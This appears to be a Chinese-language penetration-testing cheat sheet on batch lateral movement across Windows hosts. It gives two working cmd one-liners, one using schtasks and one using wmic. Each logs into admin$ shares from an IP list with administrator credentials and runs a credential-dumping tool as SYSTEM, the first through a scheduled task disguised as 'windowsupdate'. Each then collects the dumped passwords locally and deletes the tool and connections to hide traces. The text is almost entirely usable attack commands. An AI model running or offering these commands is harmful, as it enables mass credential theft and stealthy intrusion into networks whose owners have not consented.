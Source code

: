  #### Schtasks
	把IP列表放入ip.txt文件中，通过一个账户密码批量net use与列表里的IP建立连接，如果建立连接没出错的话，复制getpass到目录temp目录，使用账户密码远程创建计划任务名字为windowsupdate，指定每日00：00以system权限执行getpass文件，创建完计划任务后，/tn是立刻执行此计划任务，执行完后删除此计划任务，ping -n 10>nul是程序停留，相当于延时10秒，之后复制文件到本地，接着删除getpass文件，删除创建的连接。
	>for /f %i in (ip.txt) do net use \\%i\admin$ /user:"administrator" "password" & if %errorlevel% equ 0 ( copy getpass.exe \\%i\admin$\temp\ /Y ) & schtasks /create /s "%i" /u "administrator" /p "password" /RL HIGHEST /F /tn "windowsupdate" /tr "c:\windows\temp\getpass.exe" /sc DAILY /mo 1 /ST 00:00 /RU SYSTEM & schtasks /run /tn windowsupdate /s "%i" /U "administrator" /P "password" & schtasks /delete /F /tn windowsupdate /s "%i" /U " administrator" /P "password" & @ping 127.0.0.1 -n 10 >nul & move \\%i\admin$\temp\dumps.logs C:\Users\Public\%i.logs & del \\%i\admin$\debug\getpass.exe /F & net use \\%i\admin$ /del
 #### Wmic
	>for /f %i in (ip.txt) do net use \\%i\admin$ /user:"administrator" "password" & if %errorlevel% equ 0 ( copy getpass.exe \\%i\admin$\temp\ /Y ) & wmic /NODE:"%i" /user:"administrator" /password:"password" PROCESS call create "c:\windows\temp\getpass.exe" & @ping 127.0.0.1 -n 10 >nul & move \\%i\admin$\temp\dumps.logs C:\Users\Public\%i.logs & del \\%i\admin$\temp\getpass.exe /F & net use \\%i\admin$ /del